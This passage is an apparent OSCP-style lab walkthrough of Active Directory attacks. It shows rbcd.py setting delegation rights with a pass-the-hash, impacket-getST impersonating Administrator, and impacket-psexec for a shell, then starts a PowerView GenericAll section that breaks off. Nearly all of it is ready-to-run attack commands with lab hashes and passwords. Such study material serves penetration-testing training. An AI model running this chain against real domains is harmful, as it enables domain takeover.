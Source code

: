 https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py

With this account added, we now need a python script to help us manage the delegation rights. Let's grab a copy of rbcd.py and use it to set **msDS-AllowedToActOnBehalfOfOtherIdentity** on our new machine account.

```powershell
# python3 rbcd.py -dc-ip 192.168.161.175 -t RESOURCEDC -f 'hacker' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
```
```powershell
PS> Get-adcomputer resourcedc -properties msds-allowedtoactonbehalfofotheridentity |select -expand msds-allowedtoactonbehalfofotheridentity
```
![image](https://github.com/kullaisec/OSCP/assets/99985908/90d4f7b8-d613-43ae-8c3a-64adb43f3754)

We now need to get the administrator service ticket. We can do this by using impacket-getST with our privileged machine account.

```powershell
# impacket-getST -spn cifs/resourcedc.resourced.local resourced/hacker\$:'l9z3JiITmvqcwdq' -impersonate Administrator -dc-ip 192.168.161.175
```
![image](https://github.com/kullaisec/OSCP/assets/99985908/81fdd1c3-07a3-4712-ad12-533ef3534d73)

This saved the ticket on our Kali host as Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache. We need to export a new environment variable named KRB5CCNAME with the location of this file.

```powershell
# export KRB5CCNAME=./Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache
```

```powershell
# impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.161.175
```

you will get adminsitrator access !!

## GenericAll Permission

After Importing the `PowerView.ps1` in owned Target machine !!

```powershell
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

#You will get the SID's we need to convert the SID's to readable names !!

PS> "S-1-5-21-12121....","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548",.... | Convert-SidToName
```
### Example of `GenericAll` permissions

Suppose you are `stephanie` user and you have Generic All permissions on `Management Department` Group
